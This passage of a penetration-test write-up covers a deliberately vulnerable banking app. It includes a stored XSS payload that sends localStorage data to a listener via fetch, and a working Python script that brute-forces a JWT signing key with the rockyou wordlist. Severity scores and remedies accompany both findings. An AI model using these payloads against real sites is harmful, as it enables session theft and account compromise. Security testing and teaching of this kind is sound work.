 Then, I inserted the payload `<img src=x onerror="fetch('http://localhost:8000/s?d='+localStorage.userData)">` into the location field.

![](/Screenshots/unsafebank//pent/xsstoken.png)

While this only sends our own user’s data in this testing environment, if the location field is ever rendered on sensitive pages like an admin dashboard or viewed by other users, this flaw would allow attackers to steal session tokens and fully compromise accounts.

**Vulnerability Score:**  
This is a **High severity issue (CVSS ~7.4)** because it allows arbitrary script execution, potentially leading to session theft and account compromise.

**Remedy:**  
Sanitize and properly encode all user inputs before rendering them on any page. Implement Content Security Policy (CSP) headers to limit script execution. Additionally, apply input validation and output encoding consistently across all user-editable fields.

---
### 5. Weak JWT Signature:

Another obvious yet dangerous vulnerability I found was while checking the local storage. It was the JWT token itself.

![](/Screenshots/unsafebank//pent/jwt.png)

First, I noted that it's storing way too much sensible information. However, the more critical issue was the weak signature protection on the token.

To test this, I attempted to brute-force the JWT signing key using a common password list. Using the following Python script, I was able to successfully recover the secret key protecting the JWT token’s signature.

```python
import jwt

jwt_token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhY2N0Tm8iOiI2OTUxMDIwMzc0OTIiLCJhY2N0QmFsYW5jZSI6IjYzNTE4Ni4xOCIsImluY29tZVRheE51bWJlciI6IjI1MjgzMjAyNTQiLCJhY2N0T3BlbmluZ0RhdGUiOiIyMDI1LTA3LTA0IDAwOjAwOjAwIiwiY3VycmVuY3kiOiJJTlIiLCJmbmFtZSI6ImFsaSIsImxuYW1lIjoiYWxpIiwiYWRkcmVzcyI6IjEsIGFhIiwiZG9iIjoiMjAwOC0wNi0yOSIsIm1vYmlsZU5vIjoiMTExMTExMTExMSIsImVtYWlsIjoiYWxpQG1haWwuY29tIiwiYWFkaGFySWQiOiIzMjMxMDgwNzU3NDAiLCJwYW5DYXJkSWQiOiI4Mzg2NTY1ODQ3Iiwid2FsbGV0SWQiOiI2MDAwMDY2NzU3IiwiZ2VuZGVyIjoiMSIsImNvdW50cnlJZCI6IklORCIsImV4cCI6MTc1MjI1Njc4N30.rXQawROYgPu6irdsp6bNBx01koH7lm6eWZfhY_iDDXo"

rockyou_path = "/usr/share/wordlists/rockyou.txt"

with open(rockyou_path, "r", errors="ignore") as f:
    for line in f:
        key = line.strip()
        try:
            decoded = jwt.decode(jwt_token, key, algorithms=["HS256"])
            print(f"[+] Key found: {key}")
            print(f"Decoded payload: {decoded}")
            break
        except jwt.exceptions.InvalidSignatureError:
            pass
        except Exception:
            pass
    else:
        print("[-] Key not found in rockyou.txt")
```
